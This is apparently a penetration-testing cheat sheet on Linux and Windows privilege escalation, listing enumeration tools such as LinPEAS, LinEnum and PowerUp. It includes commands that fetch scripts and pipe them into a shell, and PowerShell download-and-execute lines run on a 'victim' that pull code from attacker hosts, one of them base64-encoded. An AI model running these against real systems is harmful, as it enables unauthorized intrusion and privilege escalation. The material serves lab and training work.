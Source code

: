 **[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)**

	cd /tmp; curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
	./linpeas.sh -a/-s 					#option -a for CTF only, -s for stealth mode
**[LinEnum](https://github.com/rebootuser/LinEnum)**

	cd /tmp; wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash LinEnum.sh
	cd /tmp; wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O privescc.sh
	./LinEnum.sh -t -k password

**[Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)**

	./linux-exploit-suggester.pl
	
	#check browser if got GUI
	echo $DESKTOP_SESSION
	echo $XDG_CURRENT_DESKTOP
	echo $GDMSESSION
	
## 14. Windows PrivEsc  
[Windows elevation of privileges ToC](https://guif.re/windowseop) | [privilege_escalation_windows](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html) | [PayloadsAllTheThings - Windows PrivEsc Technique](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
				
**[WES-NG](https://github.com/bitsadmin/wesng)** - kernel exploit

	cmd victim: systeminfo > sysinfo.txt
	transfer to kali
	kali: wes.py sysinfo.txt


**[PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)** - [PowerUp usage](https://recipeforroot.com/advanced-powerup-ps1-usage/) | [PowerSploit manual](https://powersploit.readthedocs.io/en/latest/)
			
*[Download & Execute](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters#download-and-execute)* | [PayloadsAllTheThings - Windows Download and execute methods](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Download%20and%20Execute.md)	

	cmd victim: echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile - 			#From cmd download and execute
	powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"
	iex (iwr '10.10.14.9:8000/ipw.ps1') 			#From PSv3

*[Base64 Encoded](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters#base64-kali-and-encodedcommand)*

	kali: echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:9000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w0
	PS victim: powershell -EncodedCommand <Base64>
	
*PowerUp.ps1 in ctf mode*

